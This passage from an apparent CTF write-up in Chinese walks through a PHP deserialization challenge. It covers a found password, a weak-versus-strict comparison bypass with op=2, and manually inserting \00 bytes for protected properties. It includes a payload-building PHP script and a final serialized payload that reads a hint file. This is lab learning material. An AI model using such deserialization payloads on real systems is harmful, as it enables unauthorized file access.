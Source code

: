 之后在文件中搜索发现最后的密码为`5201314`

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import7.png)

第二个点：

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import8.png)

析构函数中`op==='2'`为强对比，而前面验证函数中`op=='2'`为弱对比，因而可以通过`op=2`来绕过强对比，避免op被置为'1'从而跳入put分支

第三个点：

变量类型为`protected`，在之后构造payload时需要对payload进行手动修改

构造payload：

```
<?php

class FileHandler {

    public $op = 2;
    public $filename = "hint.php";
    public $content = "111";
    public $passwd = '5201314';    
}
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}
$exp = new FileHandler();
$exp_s = serialize($exp);
var_dump(is_valid($exp_s));
echo($exp_s);
?>
```

远程`file_get_contents(file)`需要用绝对地址

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import9.png)

在构造protected变量的序列化过程中存在\00字符，表现为不可见字符，需要手动添加，位置为环绕\*字符左右各一个，同时s要大写表示后面允许使用\00的表达

最终payload:

```
O:11:"FileHandler":4:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";S:32:"/var/www/html/fllllaiig/hint.php";S:10:"\00*\00content";S:3:"111";S:9:"\00*\00passwd";S:7:"5201314";}
```

发现result并无返回值，查看页面源代码发现hint：

```
$dir='bubblegvm5201314';
```
